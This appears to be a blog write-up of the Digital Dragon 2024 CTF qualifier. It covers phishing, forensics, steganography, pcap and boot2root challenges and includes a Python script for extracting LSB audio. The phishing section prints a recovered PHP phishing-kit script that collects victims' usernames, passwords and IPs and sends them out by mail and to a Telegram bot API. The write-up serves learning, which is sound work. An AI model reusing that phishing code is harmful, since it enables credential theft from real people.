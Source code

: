 ```yaml
---
layout: post
title:  "Digital Dragon CTFs"
tags: [Forensics]
date:   2024-08-12 00:00:00
excerpt: "Digitals Dragon CTFs 2024 Qualification"
feature: https://raw.githubusercontent.com/raviyelna/raviyelna.github.io/master/assets/img/background.jpg
categories: CTFs
---
```

# Digital Dragon CTFs
## Solved by Raviel 
### Misc
#### Phising-1
![image](https://hackmd.io/_uploads/ryzw-bBcC.png)

The challenge gave us a link lead to a website.
![image](https://hackmd.io/_uploads/rksh-Wr9R.png)

After messing around I found that when I login with gmail its send me back to google.com

![image](https://hackmd.io/_uploads/rkMzfbrcA.png)

after checking its subfolder/path with Dirsearch I found a backup folder

![image](https://hackmd.io/_uploads/BkAcfWHcA.png)
![image](https://hackmd.io/_uploads/Syi3zZBcA.png)

Download the onedrive.zip file we got the source code of its
```
<?php

include '../email.php';

// Generate a unique session data
$data = base64_encode(time() . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . md5(uniqid(rand(), true)));
$_SESSION['data'] = $data;

// Prepare form data
$form = "**Office 365 Login Attempt**\n";
$form .= "| Username: " . $_POST['email'] . "\n";
$form .= "| Password: " . $_POST['password'] . "\n";
$form .= "| User IP: " . $_SERVER['REMOTE_ADDR'] . "\n";
$form .= "| Browser: " . $_SERVER['HTTP_USER_AGENT'] . "\n";
$form .= "| DateTime: " . date('Y-m-d H:i:s') . "\n";
$form .= "----------------------------------------\n";

// Prepare email details
$subject = "**Office 365 Login Attempt** From " . $_SERVER['REMOTE_ADDR'];
$headers = "From: Digital Dragons 2024 <your-email@example.com>\r\n";
$headers .= "MIME-Version: 1.0\r\n";
$headers .= "Content-Type: text/plain; charset=UTF-8\r\n";

// Send email to each recipient in $email array
foreach ($email as $recipient) {
    mail($recipient, $subject, $form, $headers);
}

// Send form data to Telegram
$data = [
    'chat_id' => $telegramID,
    'text' => $form
];
$response = file_get_contents("https://api.telegram.org/bot$telegramTOKEN/sendMessage?" . http_build_query($data));

// Redirect or display success message after processing
header(""); // Replace with your success page URL
exit();

?>

```
we can see that its send victim information back through a telegram bot using API token 

![image](https://hackmd.io/_uploads/rykuXWScC.png)

checking the token we got the flag in email.php

![image](https://hackmd.io/_uploads/Hyjj7-S5C.png)

**flag{227de24c5e70d582e1cfecb1c57105ff}**

---

### Forensics
#### Forensics-101

![453575658_784816443731120_1615205164487708797_n](https://hackmd.io/_uploads/SJAs4-BqC.png)

The challenge gave us a execute file but its seem not to be a right extension or format checking with file in Linux we see that its a PNG image so just change the extension back and got the flag

![image](https://hackmd.io/_uploads/HyJxHWr9A.png)

**Flag: flag{6203b09fa1b624c6aa627d6108544686}**

#### Log flood
![image](https://hackmd.io/_uploads/HJB6BWS9A.png)

The chall gave us a iso file extract it has alots of folder and log file 
![image](https://hackmd.io/_uploads/SyZO8WB9C.png)

the best way to solve this is to unzip it all then strings and grep or you can read it but it will be enourmous of text.

![image](https://hackmd.io/_uploads/BJFaw-r9C.png)
![image](https://hackmd.io/_uploads/B1pXOWBqC.png)

You will see a suspicious Base64 string decode it and got the flag
**Flag: flag{ab0d215c26354bfe02302c3beac879bf}**

#### Email
**SORRY I DONT HAVE THE CHALLENGE DESCRIPTION FOR THIS 'CAUSE I DIDN'T CAPTURE IT WHEN SOLVING AND THE WEBSITE ALREADY CLOSED**
![GR_yJ9QXsAA8L5R](https://hackmd.io/_uploads/B1eNYZBqC.png)

The challenge gave us a EML file, so I will open it with thunderbird

![image](https://hackmd.io/_uploads/HJR2F-H5R.png)

After messing around with the pdf file, its a corrupted file or its may be full of garbages inside

![image](https://hackmd.io/_uploads/rkpu5bBc0.png)

but do you remember the flag base64 encoded? its "ZmxhZw" do you see its familiar? its the picture right at the end of the EML file

![image](https://hackmd.io/_uploads/BJzAqWB50.png)
![image](https://hackmd.io/_uploads/B1VWj-H90.png)

**Flag: flag{743cd9316bb1ded417574643e3839737}**

---

### Stegnography

#### Steg-basic

![image](https://hackmd.io/_uploads/rJHOsWB9R.png)
![basic-steg](https://hackmd.io/_uploads/Hy4Zh-Bq0.jpg)

The challenge gave us a jpg picture, string it and got the flag

![image](https://hackmd.io/_uploads/HJLBn-B5A.png)

**Flag: flag{b666cd2bbfe773ea854948d9b77953ac}**

#### Steg-revised
![image](https://hackmd.io/_uploads/BywlaWBcR.png)

The challenge gave us a wav file and hint that its relate to LSB so I will check the file with Silenteye tool 

![image](https://hackmd.io/_uploads/Ski2aZB5A.png)

It return nothing I will have to write a script to decrypt it
```
import wave

song = wave.open("stego_audio_LSB.wav", mode='rb')
frame_bytes = bytearray(list(song.readframes(song.getnframes())))

# Extract the LSB of each byte
extracted = [frame_bytes[i] & 1 for i in range(len(frame_bytes))]
# Convert byte array back to string
string = "".join(chr(int("".join(map(str,extracted[i:i+8])),2)) for i in range(0,len(extracted),8))
decoded = string.split("###")[0]


print("decoded: "+decoded)
song.close()
```
![image](https://hackmd.io/_uploads/rkCd0bS5C.png)

**Flag: flag{464cb8f40278b7aafc98d931e50a5021}**

---

### Networking
#### D1 Accidental Breach

![image](https://hackmd.io/_uploads/rJJa0bHcC.png)

The challenge gave us a pcap file its contain 270 packets 

![image](https://hackmd.io/_uploads/r1EHyfScC.png)

going through the stream eventually you will find a conversation kinda suspicious 

![image](https://hackmd.io/_uploads/B11q1zS5R.png)
![image](https://hackmd.io/_uploads/SJBpkfr5C.png)

**Flag: flag{f88e05cbd53f00f6090be0e153680b2e}**

->***I wont be writting the first challenge cause its just ask what is "IoC" mean lmao***<-

---
### Boot2Root
#### BRT-1
**AGAIN IM SORRY BECAUSE I DON'T HAVE THE CHALLENGE DESCRIPTION**
The challenge gave us a ova file, open it in Vmware you can boot up a Vmware but there's no password and account, there 2 ways to solve this challenge.
![image](https://hackmd.io/_uploads/S1RNGMSqC.png)

First is we have to climb Root but in this case because the challenge gave us the whole VM so there is a Forensics way to solve it by using FTK imager.

![image](https://hackmd.io/_uploads/B1V3GGr5C.png)

add the vmdk file as image evidence and there we go

![image](https://hackmd.io/_uploads/Hkf1QzS5A.png)

Dig a little bit deeper and you will find the flag

![image](https://hackmd.io/_uploads/S1LWmMBcA.png)

**Flag: flag{2991c9c5a7e497203de318897dbf1970}**
**By the way, shout-out to AnhShidou for this unintended solve**

![image](https://hackmd.io/_uploads/rksRNMHcA.png)


**Thanks for reading (')>**


